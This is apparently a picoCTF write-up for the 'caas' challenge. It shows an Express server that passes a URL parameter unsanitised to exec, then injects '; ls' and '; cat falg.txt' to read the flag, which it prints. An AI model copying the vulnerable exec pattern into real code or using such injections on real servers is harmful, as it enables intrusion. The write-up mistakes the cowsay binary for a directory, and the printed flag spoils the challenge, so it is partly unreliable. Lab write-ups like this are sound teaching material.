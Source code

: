# cass

(flag: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}) <br/>

We are given a website `https://caas.mars.picoctf.net/cowsay` which will print whatever input we type after the the `/cowsay/`. When we download the `index.js` file given in the question. We get the code:
```
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

Here, we can see that the website is accessing the `/usr/games/cowsay` directory of the server, and since there is no filter, we can inject some code into it like `https://caas.mars.picoctf.net/cowsay/foo; ls`. This gives us a list of files present in `/usr/games/cowsay` directory and the thing of interest is `falg.txt`. We then input `https://caas.mars.picoctf.net/cowsay/foo; cat falg.txt` which gives us the flag `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`